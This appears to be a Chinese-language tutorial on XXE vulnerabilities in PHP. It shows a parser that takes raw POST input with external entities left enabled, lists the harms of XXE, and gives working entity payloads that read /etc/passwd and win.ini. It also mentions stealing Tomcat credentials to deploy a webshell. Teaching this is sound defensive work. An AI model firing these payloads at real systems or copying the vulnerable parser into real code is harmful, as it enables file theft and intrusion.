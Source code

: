 

- 从PHP代码层面上
- 最开始，引入一个file_get_contents函数，将整个XML数据读入data字符串中
- 然后交给php的xml解析函数simplexml_load_string()解析，解析后的数据赋给xml变量。



- 这一数据即XML字符串中使用的对象(或者说根元素)的数据，并echo输出出来。

```php
<?php
$data = file_get_contents('php://input');  //获取提交的XML数据 php://input这种协议是获取POST提交的数据流
$xml = simplexml_load_string($data);  // 交给PHP的XML解析函数
echo $xml->name;
?>
```

# xxe漏洞的危害

- xxe漏洞的危害有很多，比如可以文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等，这里就读取任意文件的利用方式进行测试。

## 读取任意文件

### 有回显情况

```php
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```

- 访问XML.php可以读取etc/passwd文件内容

- 该CASE是读取/etc/passwd，有些XML解析库支持列目录，攻击者通过列目录、读文件，获取帐号密码后进一步攻击，如读取tomcat-users.xml得到帐号密码

  后登录tomcat的manager部署webshell。

 

实例展示：

 

可以使用如下的两种方式进行XXE注入攻击。

 ```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  xxe SYSTEM "file:///c:/windows/win.ini" >]>
<foo>&xxe;</foo>
 ```
